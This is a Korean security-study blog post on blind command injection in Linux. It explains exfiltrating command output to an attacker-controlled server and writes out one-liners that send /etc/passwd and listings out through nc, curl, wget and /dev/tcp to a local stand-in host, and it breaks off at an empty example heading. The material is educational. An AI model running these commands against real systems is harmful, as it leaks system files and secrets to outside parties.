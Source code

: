 ```yaml
---
title: "[2025-07-26] Command Injection 심화"
excerpt: "Command Injection 심화 버전"

categories:
  - Justice
tags:
  - [Command Injection]

permalink: /Justice/[2025-07-26] Command Injection 심화/

toc: true
toc_sticky: true

date: 2025-07-26
last_modified_at: 2025-07-26
---
```


## 🦥 본문

## Command Injection for Linux

### Blind Command Injection

- Network Outbound : 명령 실행 결과를 공격자가 제어하는 외부 서버로 전송하도록 만들어 결과를 간접 확인하는 공격 기법
    - 조건 : 서버에 네트워크 도구를 설치할 수 있거나 설치되었을 때 사용 가능한 방법
    - 명령어
        - nc(netcat) : TCP, UDP 프로토콜에서 데이터를 송수신하는 프로그램. 앞 선 명령어의 결과를 송신함.
            
            ```php
            cat /etc/passwd | nc 127.0.0.1 8000
            ```
            
        - telnet : 네트워크 연결에 사용하는 프로토콜. nc와 같은 방식으로 사용
        - curl/wget : 웹 서버의 컨텐츠를 가져오는 프로그램. 명령어의 실행 결과를 웹서버의 경로나 Body에 포함하여 전송.
            
            ```php
            curl "http://127.0.0.1:8080/?$(ls -al|base64 -w0)"
            
            //POST
            curl http://127.0.0.1:8080/ -d "$(ls -al)"
            wget http://127.0.0.1:8080 --method=POST --body-data="`ls -al`"
            ```
            
        - /dev/tcp & /dev/udp : Bash에서 지원하는 네트워크 연결 방법
            
            ```php
            cat /etc/passwd > /dev/tcp/127.0.0.1/8080
            ```
            
    - EX)
        